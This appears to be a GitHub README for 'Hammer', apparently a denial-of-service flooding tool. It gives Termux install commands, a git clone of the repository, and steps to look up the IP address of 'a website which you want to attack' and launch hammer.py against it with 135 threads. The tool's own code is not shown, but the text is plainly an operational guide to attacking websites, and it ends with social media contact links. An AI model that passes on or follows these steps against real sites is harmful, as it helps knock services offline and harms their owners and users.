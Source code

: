 $ pkg update<br>
$ pkg upgrade<br>
$ pkg install python<br>
$ pkg install git<br>
$ pkg install dnsutils<br>
$ git clone https://github.com/Azim143/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Follow Me:<br>
[`Fb me`](https://www.facebook.com/100022097600640)<br>
Message Me:<br>
[`wp me`](https://chat.whatsapp.com/FRfuraMrZrU3mgCtuFg75k)
